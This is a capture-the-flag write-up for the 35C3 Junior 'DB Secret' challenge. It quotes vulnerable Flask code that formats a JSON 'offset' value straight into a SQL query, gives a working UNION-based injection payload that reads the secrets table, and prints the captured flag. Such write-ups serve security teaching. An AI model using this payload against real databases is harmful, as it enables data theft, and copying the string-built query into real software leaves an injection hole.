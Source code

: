 # DB Secret

> Solves:61
> To enable secure microservices (or whatever, we don't know yet) over Wee in the future, we created a specific DB_SECRET, only known to us. This token is super important and extremely secret, hence the name. The only way an attacker could get hold of it is to serve good booze to the admins. Pretty sure it's otherwise well protected on our secure server.

>http://35.207.132.47/

> Difficulty Estimate: Medium

## Analysis

This is another challenge from wee series of challenges so we do have access to source code in /pyserver/server.py .
No flag giving mechanism is discovered upon source code examination, but we know that flag is stored in database:

```python
db.execute("INSERT INTO secrets(secret) values(?)", (DB_SECRET,))
```
This means we need to access database , pointing us to SQL injection vulnerability.

## Solution

Note: you need to be logged in in order for this solution to work, see (logged in writeup)[https://github.com/HackThisSite/CTF-Writeups/tree/master/2018/35C3-Junior/Logged-in]

I examined each query in code and most used secured parametrised statements, except one!

```python
@app.route("/api/getprojectsadmin", methods=["POST"])
def getprojectsadmin():
    # ProjectsRequest request = ctx.bodyAsClass(ProjectsRequest.class);
    # ctx.json(paperbots.getProjectsAdmin(ctx.cookie("token"), request.sorting, request.dateOffset));
    name = request.cookies["name"]
    token = request.cookies["token"]
    user, username, email, usertype = user_by_token(token)

    json = request.get_json(force=True)
    offset = json["offset"]
    sorting = json["sorting"]

    if name != "admin":
        raise Exception("InvalidUserName")

    sortings = {
        "newest": "created DESC",
        "oldest": "created ASC",
        "lastmodified": "lastModified DESC"
    }
    sql_sorting = sortings[sorting]

    if not offset:
        offset = datetime.datetime.now()

    return jsonify_projects(query_db(
        "SELECT code, userName, title, public, type, lastModified, created, content FROM projects WHERE created < '{}' "
	"ORDER BY {} LIMIT 10".format(offset, sql_sorting), one=False), username, "admin")
```
/api/getprojectsadmin has 2 json POST parameters offset and sorting, we can use offset parameter for UNION based SQL injection!

I sent following POST data (again don't forget you need to have name and token cookie aka you need to be logged in):
```
{"offset":"' UNION SELECT secret,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM secrets WHERE '1'='1", "sorting":"newest"}
```

Which gave result:
```
[{"code":"35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???","content":null,"created":null,"lastModified":null,"public":null,"title":null,"type":null,"userName":null}]
```
 
